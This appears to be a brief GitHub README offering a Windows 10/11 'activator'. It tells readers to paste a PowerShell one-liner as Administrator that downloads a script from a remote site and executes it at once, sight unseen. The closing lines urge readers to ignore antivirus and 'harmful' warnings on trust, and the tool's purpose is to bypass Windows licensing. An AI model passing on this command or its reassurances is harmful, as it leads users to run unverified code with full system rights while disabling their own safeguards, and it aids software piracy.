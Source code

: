 # Windows-10-11-Activator


You can also run this in Powershell(Make sure to run it as Administrator)



irm https://get.activated.win | iex



COPY THE ABOVE CODE AND PASTE IT IN YOU'RE POWERSHELL



This is not required to run the code itself, it acts as a substitute to the .cmd file



Enjoy!!




One more thing!
It might say that this is harmful... but trust me, it's not the only reason it's marked as harmful is because it is related to KMS which
is marked as "Harmful"
The second reason is because it is  a ".cmd" format which is also rumored to be harmful!!
